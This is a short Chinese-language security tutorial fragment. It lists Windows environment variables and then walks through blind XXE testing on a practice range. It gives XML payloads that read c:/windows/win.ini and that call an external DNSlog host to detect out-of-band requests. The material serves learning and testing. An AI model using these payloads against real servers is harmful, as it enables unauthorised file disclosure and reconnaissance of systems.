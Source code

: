 ```
//%TEMP%和%TMP% 系统和用户 返回对当前登录用户可用的应用程序所使用的默认临时目录。有些应用程序需要 TEMP，而其他应用程序则需要 TMP。

//%TIME% 系统 返回当前时间。使用与time /t命令相同的格式。由Cmd.exe生成。有关time命令的详细信息，请参阅 Time。

//%USERDOMAIN% 本地 返回包含用户帐户的域的名称。

//%USERNAME% 本地 返回当前登录的用户的名称。

//%USERPROFILE% 本地 返回当前用户的配置文件的位置。

//%WINDIR% 系统 返回操作系统目录的位置。
```



# XXE的盲打

进入靶场实践:

```
<?xml version = "1.0"?><!DOCTYPE note [<!ENTITY hacker "Tr0e">]><name>&hacker;</name>
```

![dnslog平台+漏洞盲打合集](https://github.com/pzspsh/intelligentlibrary/blob/main/images/dnslog-xxe盲打测试.png)



构造读取本地文件的 Payload：

```
<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///c:/windows/win.ini" > ]><foo>&xxe;</foo>
```

假设这是一个 XXE 无回显的漏洞，或者说不清楚服务器是什么操作系统、不清楚文件组成，可以构造如下 DNSlog 相关的 Payload：

```
<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://veojxg.dnslog.cn" > ]><foo>&xxe;</foo>
```
